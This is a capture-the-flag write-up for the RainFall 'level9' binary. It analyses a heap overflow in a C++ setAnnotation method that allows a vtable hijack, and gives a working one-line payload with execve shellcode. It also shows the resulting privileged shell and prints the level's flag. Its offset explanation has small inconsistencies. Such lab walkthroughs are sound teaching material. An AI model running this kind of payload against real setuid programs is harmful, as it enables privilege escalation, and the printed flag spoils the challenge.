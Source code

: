 # **Level9**

In this level, we found a binary file

```c
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and discovered this is a C++ program that uses Class inheritance and virtual functions and dynamic memory allocation and operator overloading

```nasm
; Check argc (must be > 1)
0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)       ; Compare argc with 1
0x08048602 <+14>:    jg     0x8048610            ; If argc > 1, continue
0x08048604 <+16>:    movl   $0x1,(%esp)          ; Else, prepare exit(1)
0x0804860b <+23>:    call   0x80484f0 <_exit@plt>; Call exit(1)

; Create first object (N* obj1 = new N(5))
0x08048610 <+28>:    movl   $0x6c,(%esp)         ; Size = 108 bytes
0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>; operator new
0x0804861c <+40>:    mov    %eax,%ebx            ; Save object pointer
0x0804861e <+42>:    movl   $0x5,0x4(%esp)       ; Parameter 5
0x08048626 <+50>:    mov    %ebx,(%esp)          ; this pointer
0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>; Call N::N(int)
0x0804862e <+58>:    mov    %ebx,0x1c(%esp)      ; Store obj1

; Create second object (N* obj2 = new N(6))
0x08048632 <+62>:    movl   $0x6c,(%esp)         ; Size = 108 bytes
0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>; operator new
0x0804863e <+74>:    mov    %eax,%ebx            ; Save object pointer
0x08048640 <+76>:    movl   $0x6,0x4(%esp)       ; Parameter 6
0x08048648 <+84>:    mov    %ebx,(%esp)          ; this pointer
0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>; Call N::N(int)
0x08048650 <+92>:    mov    %ebx,0x18(%esp)      ; Store obj2

; Store object pointers in local variables
0x08048654 <+96>:    mov    0x1c(%esp),%eax      ; Load obj1
0x08048658 <+100>:   mov    %eax,0x14(%esp)      ; Store in a
0x0804865c <+104>:   mov    0x18(%esp),%eax      ; Load obj2
0x08048660 <+108>:   mov    %eax,0x10(%esp)      ; Store in b

; Call setAnnotation with argv[1]
0x08048664 <+112>:   mov    0xc(%ebp),%eax       ; Get argv
0x08048667 <+115>:   add    $0x4,%eax            ; argv[1]
0x0804866a <+118>:   mov    (%eax),%eax          ; Get argv[1] string
0x0804866c <+120>:   mov    %eax,0x4(%esp)       ; Second parameter
0x08048670 <+124>:   mov    0x14(%esp),%eax      ; Load obj1 (a)
0x08048674 <+128>:   mov    %eax,(%esp)          ; First parameter (this)
0x08048677 <+131>:   call   0x804870e            ; Call setAnnotation

; Call virtual function (vulnerable part)
0x0804867c <+136>:   mov    0x10(%esp),%eax      ; Load obj2 (b)
0x08048680 <+140>:   mov    (%eax),%eax          ; Get vtable pointer
0x08048682 <+142>:   mov    (%eax),%edx          ; Get function pointer
0x08048684 <+144>:   mov    0x14(%esp),%eax      ; Load obj1 (a)
0x08048688 <+148>:   mov    %eax,0x4(%esp)       ; Parameter for virtual func
0x0804868c <+152>:   mov    0x10(%esp),%eax      ; Load obj2 (b)
0x08048690 <+156>:   mov    %eax,(%esp)          ; this pointer
0x08048693 <+159>:   call   *%edx                ; Call virtual function
```

**Listing Functions:**

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080485f4  main
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```

The key functions identified are:

- **`main`**: The entry point of the program.
- **`N::N(int)`**: Constructor for the class **`N`**.
- **`N::setAnnotation(char*)`**: A method that accepts a **`char*`** argument.
- **`N::operator+(N&)`** and **`N::operator-(N&)`**: Overloaded operators for class **`N`**.

**Analyzing `main` Function:**

Disassembling the **`main`** function reveals:

1. **Argument Check**: The program checks if at least one argument is provided.
2. **Object Instantiation**:
    - Two objects of class **`N`** are created.
    - The first object is created with the integer **`5`**.
    - The second object is created with the integer **`6`**.
3. **Method Invocation**:
    - The **`setAnnotation`** method is called on the first object, passing **`argv[1]`** as an argument.
    
    ```nasm
    ; Get string length
    0x08048714 <+6>:     mov    0xc(%ebp),%eax       ; Load parameter (char* str)
    0x08048717 <+9>:     mov    %eax,(%esp)          ; Parameter for strlen
    0x0804871a <+12>:    call   0x8048520 <strlen@plt>; Get string length
    
    ; Calculate destination address (this->annotation)
    0x0804871f <+17>:    mov    0x8(%ebp),%edx       ; Load 'this' pointer
    0x08048722 <+20>:    add    $0x4,%edx            ; Point to annotation member (offset 4)
    
    ; Setup memcpy parameters
    0x08048725 <+23>:    mov    %eax,0x8(%esp)       ; Third param: length from strlen
    0x08048729 <+27>:    mov    0xc(%ebp),%eax       ; Load source string
    0x0804872c <+30>:    mov    %eax,0x4(%esp)       ; Second param: source
    0x08048730 <+34>:    mov    %edx,(%esp)          ; First param: destination
    
    ; Call memcpy and return
    0x08048733 <+37>:    call   0x8048510 <memcpy@plt>; Vulnerable memcpy call
    0x08048738 <+42>:    leave                       ; Restore stack frame
    0x08048739 <+43>:    ret                         ; Return
    ```
    
## **Vulnerability**

- **Use of `memcpy` without Bounds Checking**: The method copies the input string into an annotation buffer using **`memcpy`**, based on the length calculated by **`strlen`**.
- **Potential Buffer Overflow**: If the input string is larger than the allocated space for the annotation buffer, it can overwrite adjacent memory.

## **Exploit**

To exploit the buffer overflow in **`N::setAnnotation`** to overwrite critical data structures, leading to arbitrary code execution and privilege escalation.

**Finding the Offset:**

The offset to overwrite the return address is **76 bytes**, derived as follows:

**108 (total buffer size)** - **4 (address at 0x804a008)** - **24 (shellcode size)** - **4 (address at 0x0804a00c)**.

**First object start :**

```nasm
level9@RainFall:~$ ltrace ./level9 AAAA
[...]
; First object creation
_Znwj(108, 0xbffff7b4, 0xbffff7c0, 0xb7d79e55, 0xb7fed280) = 0x804a008
                                                              ^^^^^^^^^
                                                             ; First object address
; Second object creation
_Znwj(108, 5, 0xbffff7c0, 0xb7d79e55, 0xb7fed280) = 0x804a078

; String operations
strlen("AAAA") = 4
memcpy(0x0804a00c, "AAAA", 4) = 0x0804a00c
                   ^^^^^^^^^
                   ;Our input is copied here
[...]
level9@RainFall:~$
```

  0x804a008: First object start (vtable pointer)

Where our input is being copied:

• Note that this is 4 bytes after the first object (**`0x804a008 + 4`**)

0x804a00c:  Where our input starts (4 bytes after object start) (*0x804a008 + 4 = 0x804a00C*)

**Memory of the Object in the Program**

 The first object is allocated at `0x804a008`:

| Address | Field | Value/Description |
| --- | --- | --- |
| `0x804a008` | **vptr** | Points to the vtable of class `N`. |
| `0x804a00c` | `number` | The integer field (set to `5` initially). |
| `0x804a010` | `annotation` | Pointer to the annotation buffer or `NULL`. |
1. Run the exploit:

```nasm
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "Y" * 76 + "\x0c\xa0\x04\x08"')
```

- **`"\x10\xa0\x04\x08"`**: The address pointing to our shellcode.
- **`"<shellcode>"`**: The shellcode to be executed.
- **`"Y" * 76`**: Padding to fill the buffer up to the overwrite point.
- **`"\x0c\xa0\x04\x08"`**: The address to overwrite, redirecting execution.
1. Result:
    
    ```nasm
    $ whoami
    bonus0
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    ```
    

## **Flag**

```nasm
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```